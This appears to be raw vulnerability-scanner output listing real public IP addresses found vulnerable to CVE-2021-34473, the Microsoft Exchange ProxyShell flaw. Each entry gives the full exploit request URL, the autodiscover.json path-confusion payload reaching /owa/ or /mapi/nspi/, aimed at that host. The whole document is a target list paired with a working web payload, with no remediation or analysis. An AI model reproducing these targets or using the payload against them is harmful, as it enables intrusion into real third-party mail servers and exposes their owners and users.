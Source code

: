 [CVE-2021-34473] [http] [critical] https://195.34.193.230/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 195.239.30.115  
  
---  
[CVE-2021-34473] [http] [critical] https://195.239.30.115/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://195.239.30.115/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 195.62.59.254  
  
---  
[CVE-2021-34473] [http] [critical] https://195.62.59.254/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://195.62.59.254/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 195.42.164.178  
  
---  
[CVE-2021-34473] [http] [critical] https://195.42.164.178/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 195.91.134.67  
  
---  
[CVE-2021-34473] [http] [critical] https://195.91.134.67/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://195.91.134.67/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 195.96.68.226  
  
---  
[CVE-2021-34473] [http] [critical] https://195.96.68.226/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
[CVE-2021-34473] [http] [critical] https://195.96.68.226/autodiscover/autodiscover.json?@test.com/mapi/nspi/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
## 212.176.240.5  
  
---  
[CVE-2021-34473] [http] [critical] https://212.176.240.5/autodiscover/autodiscover.json?@test.com/owa/?&Email=autodiscover/autodiscover.json%3F@test.com  
  
